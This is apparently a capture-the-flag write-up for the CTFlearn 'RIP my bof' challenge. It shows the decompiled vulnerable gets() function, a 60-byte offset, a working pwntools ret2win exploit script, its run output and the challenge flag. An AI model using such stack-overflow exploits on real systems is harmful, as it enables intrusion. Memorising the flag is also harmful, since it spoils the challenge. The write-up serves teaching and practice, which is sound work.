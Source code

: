 # RIP my bof 

> Okay so we have a bof, can we get it to redirect IP (instruction pointer) to something else?
>
> If you get stuck liveoverflow covers you again!
>
> `nc thekidofarcrania.com 4902`

Let's look at decompilation of the server binary...

```c
08048586    int32_t win()

080485b0        return system(line: "/bin/cat /flag.txt")


080485b1    int32_t vuln()

080485ce        void buf
080485ce        memset(&buf, 0, 0x20)
080485e4        void var_1c
080485e4        memset(&var_1c, 0xff, 0x10)
080485f3        init_visualize(&buf)
08048602        visualize(&buf)
08048614        printf(format: "Input some text: ")
08048623        gets(&buf)
0804863f        return visualize(&buf)


08048640    int32_t main(int32_t argc, char** argv, char** envp)

08048647        void* const __return_addr_1 = __return_addr
0804864e        int32_t* var_10 = &argc
08048668        setbuf(fp: *stdout, buf: nullptr)
0804867e        setbuf(fp: *stdin, buf: nullptr)
08048686        vuln()
08048699        return 0

```

Classic Ret2win, `gets()` is incredibly vulnerable, we overflow the stack and fly into win. We need an offset though, Binja has us covered!

![x](imgs/image.png)

Binja's stack view shows us the entry for `void buf` is at 0x3c which is 60 in decimal. This is the offsets needed to overflow. Final Solution below w/ comments.

```python
from pwn import * # Collection of tools to make ROP easier in CTFS

p = remote("thekidofarcrania.com", 4902) # Specifying our remote (which has our flag)

win = 0x8048586 # Address of Win found in Binary Ninja

payload = b"A"*60 # Using A times our offset we found above
payload += p64(win) # packs the address in little endian

p.recvuntil("Input some text") # waits until the text to input comes in
p.sendline(payload) # sends the payload we sent

p.interactive() # spawns an interactive shell
```

Running it we get...

```bash
 /bin/python3 /home/vipin/ctf/binex/random_challs/ripmybof.py
[+] Opening connection to thekidofarcrania.com on port 4902: Done
/home/vipin/ctf/binex/random_challs/ripmybof.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("Input some text")
[*] Switching to interactive mode
: 
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xff910390 | 41 41 41 41 41 41 41 41 |
0xff910398 | 41 41 41 41 41 41 41 41 |
0xff9103a0 | 41 41 41 41 41 41 41 41 |
0xff9103a8 | 41 41 41 41 41 41 41 41 |
0xff9103b0 | 41 41 41 41 41 41 41 41 |
0xff9103b8 | 41 41 41 41 41 41 41 41 |
0xff9103c0 | 41 41 41 41 41 41 41 41 |
0xff9103c8 | 41 41 41 41 86 85 04 08 |
Return address: 0x08048586

CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}
timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
$ 
```

Flag: `CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}`

